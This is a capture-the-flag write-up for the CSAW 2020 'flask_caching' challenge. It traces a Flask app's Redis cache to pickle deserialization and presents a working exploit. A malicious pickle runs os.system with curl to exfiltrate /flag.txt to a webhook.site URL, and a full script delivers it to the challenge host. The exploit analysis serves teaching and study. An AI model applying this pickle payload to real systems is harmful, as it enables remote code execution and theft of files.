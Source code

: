 ```yaml
---
title: "CSAW 2020 - flask_caching"
date: 2020-09-17T00:00:00Z
draft: false
---
```


# CSAW Qualifiers 2020 - flask_caching

We were presented with a simple Flask server,
we can see the code bellow (see the [full code](app.py)).

```python
#!/usr/bin/env python3

from flask import Flask
from flask import request, redirect
from flask_caching import Cache
from redis import Redis
import jinja2
import os

app = Flask(__name__)
app.config['CACHE_REDIS_HOST'] = 'localhost'
app.config['DEBUG'] = False

cache = Cache(app, config={'CACHE_TYPE': 'redis'})
redis = Redis('localhost')
jinja_env = jinja2.Environment(autoescape=['html', 'xml'])


@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    print(request.form, flush=True)
    print(request.files, flush=True)
    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=10)  # Note will only live for max 30 seconds

    return 'Thanks!'


# This caching stuff is cool! Lets make a bunch of cached functions.

@cache.cached(timeout=10)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'

if __name__ == "__main__":
    app.run('0.0.0.0', 5000)
```

Analyzing the code, top to bottom we see that the server uses Redis as a cache, no big deal with that.
However, the way it is being used is weird.

Whenever a new note is being posted,
the "raw" operation is used,
however when using the test endpoints the calls are wrapped with the `@cache.cached` decorator.

Furthermore, the test endpoints always return `'test'` so even if we store something there we will not have direct feedback.

Following the decorator rabbit hole to the [`rediscache.py`](https://github.com/sh4nks/flask-caching/blob/9bd8365aa5bac9fb91e9e7ddc663ff087a97ab7a/flask_caching/backends/rediscache.py#L112-L115) we find the following:

```python
def get(self, key):
    return self.load_object(
        self._read_clients.get(self._get_prefix() + key)
    )
```

And following the `load_object`:

```python
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Seeing `pickle.loads` means we have a winner.

According to the [documentation](https://docs.python.org/3/library/pickle.html):

> Warning
>
> The pickle module is not secure. Only unpickle data you trust.
>
> It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Triggering the deserialization is easy,
just start the content with `!` and the cache will take care of the rest for use.

Now we just need to create a payload and find the cache key.

First, the cache key as it is the easiest part.

- Run `app.py` with a Redis instance (increase the cache timer if necessary).
- Send a GET request to one of the test endpoints.
- Use `redis-cli` to retrieve all stored keys with `redis-cli keys "*"`.
- You now know the key is `flask_cache_view//testN` where `N` is the test endpoint number.

We now move on to the pickle.

With a quick search we find that this is called pickle shellcode,
the idea is to serialize a pickle with executes code on deserialization.

I found [this GitHub gist](https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14) which shows a "framework" to write "bad" pickles.

From there we write our exploit class:

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/<id>?flag=`cat /flag.txt`', ))
```

This works because `pickle` allows objects to decide how to be pickled using the `__reduce__` method,
hence we return a tuple of a `callable` and its arguments.

Using `os.system` we can launch an arbitrary process,
I used `curl` to send a request to `webhook.site` with the flag as a query parameter.

Now we just [automate](exploit.py) the whole process,
serializing the Exploit object to bytes,
send the bytes as a file and request the test endpoint.

```python
url = "http://web.chal.csaw.io:5000/"

class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/127d80d9-c737-44fe-95b3-c053849634a5?flag=`cat /flag.txt`', ))

bad_pickle = b"!" + pickle.dumps(Exploit())
requests.post(url,
    data={"title":"flask_cache_view//test0"},
    files={"content":bad_pickle})
requests.get(url + "/test0")
```